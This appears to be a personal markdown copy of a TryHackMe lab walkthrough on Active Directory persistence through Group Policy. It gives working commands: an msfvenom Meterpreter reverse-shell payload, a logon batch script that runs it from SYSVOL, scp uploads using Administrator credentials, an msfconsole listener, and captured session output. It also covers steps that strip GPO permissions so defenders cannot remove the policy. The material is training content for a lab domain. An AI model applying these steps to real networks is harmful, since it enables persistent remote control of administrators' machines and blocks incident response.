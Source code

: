 The last persistence technique we will review is persistence through Group Policy Objects (GPOs). At this point, you should be familiar with GPOs based on all the different enumeration, attack, and exploitation techniques we have discussed. However, GPOs are also excellent for deploying persistence.

Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all domain-joined machines. *This includes configuration such as membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup*. While this is an excellent tool for management, it can be targeted by attackers to deploy persistence across the entire estate. What is even worse is that the attacker can often hide the GPO in such a way that it becomes almost impossible to remove it.

# Domain Wide Persistence
The following are some common GPO persistence techniques:
- **Restricted Group Membership** - This could allow us administrative access to all hosts in the domain
- **Logon Script Deployment** - This will ensure that we get a shell callback every time a user authenticates to a host in the domain.

Since we already used the first hook, Restricted Group Membership, in the Exploiting AD room. Let's now focus on the second hook. While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are actively working on them. To do this, we will create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.

## Logon Script Deployment
Before we can create the GPO. We first need to create our shell, listener, and the actual bat file that will execute our shell. Let's start by generating a basic executable shell that we can use:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost={persistad} lport={4445} -f exe > {username}_shell.exe
```

Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it once a user authenticates. Create the following script called `{username}_script.bat` on the AttackBox:
```
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\{username}_shell.exe C:\tmp\{username}_shell.exe && timeout /t 20 && C:\tmp\{username}_shell.exe
```

The script executes three commands chained together with `&&`. The script will copy the binary from the SYSVOL directory to the local machine, then wait 20 seconds, before finally executing the binary.

We can use SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:
```markup
$thm scp {username}_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

$thm scp {username}_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

Finally, let's start our MSF listener:
```
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST {persistad}; set LPORT {4445}; exploit"
```

With our prep now complete, we can finally create the GPO that will execute it. You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.

## GPO Creation
The first step uses our Domain Admin account to open the Group Policy Management snap-in:
1. In your runas-spawned terminal, type MMC and press enter.
2. Click on **File**->**Add/Remove Snap-in...**
3. Select the **Group Policy Management** snap-in and click **Add**
4. Click **OK**

You should be able to see the GPO manager:
	![](Pasted%20image%2020241122192143.png)
While we can technically write our contents to the Default Domain Policy, which should propagate to all AD objects, we will take a more narrow approach for the task just to show the process. You can play around afterwards to apply the changes to the entire domain.

We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as `{username} - persisting GPO`:
	![](Pasted%20image%2020241122192241.png)
Right-click on your policy and select *Enforced*. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:
	![](Pasted%20image%2020241122192323.png)
Let's get back to our Group Policy Management Editor:  
1. Under User Configuration, expand **Policies->Windows Settings**.
2. Select **Scripts (Logon/Logoff)**.
3. Right-click on **Logon->Properties**
4. Select the **Scripts** tab.
5. Click **Add->Browse**.

Let's navigate to where we stored our Batch and binary files:
	![](Pasted%20image%2020241122192413.png)
Select your Batch file as the script and click **Open** and **OK**. Click **Apply** and **OK**. This will now ensure that every time one of the administrators (tier 2, 1, and 0) logs into any machine, we will get a callback.

In order to simulate this, let's reset the password for one of the Tier 1 administrator accounts and authenticate to a server. Use any of the techniques you've learned in the previous AD rooms to either reset the password of one of the Tier 1 administrators. Once done, remember to start your MSF multi-handler, and let's test it out by RDPing into THMSERVER1 or THMSERVER2!

Use your Tier 1 administrator credentials, RDP into one of the servers. If you give it another minute, you should get a callback on your multi-handler:
```markup
msf5 exploit(multi/handler) > run 
Started reverse TCP handler on 172.31.16.251:4445 

[*] Sending stage (176195 bytes) to 172.31.1.201 
[*] Meterpreter session 1 opened (172.31.16.251:4445 -> 172.31.1.201:63695) at 2022-05-07 10:06:28 +0100 

meterpreter >
```

**Note:** 
	You need to create a Logon event for the GPO to execute. If you just closed your RDP session, that only performs a disconnect which means it would not trigger the GPO. Make sure to select navigate to sign out as shown below in order to terminate the session. This will ensure that a Logon event is generated when you reauthenticate:

## Hiding in Plain Sight
Now that we know that our persistence is working, it is time to make sure the blue team can't simply remove our persistence. Go back to your MMC windows, click on your policy and then click on Delegation:
	![](Pasted%20image%2020241122192730.png)
By default, all administrators have the ability to edit GPOs. Let's remove these permissions
1. **Right-Click** on **ENTERPRISE DOMAIN CONTROLLERS** and select **Edit settings, delete, modify security**.
2. **Click** on all other groups (except Authenticated Users) and click **Remove**.
	![](Pasted%20image%2020241122192950.png)
Click on Advanced and remove the Created Owner from the permissions:
	![](Pasted%20image%2020241122193040.png)

By default, all authenticated Users must have the ability to read the policy. This is required because otherwise, the policy could not be read by the user's account when they authenticate to apply User policies. If we did not have our logon script, we could also remove this permission to make sure that almost no one would be able to read our Policy.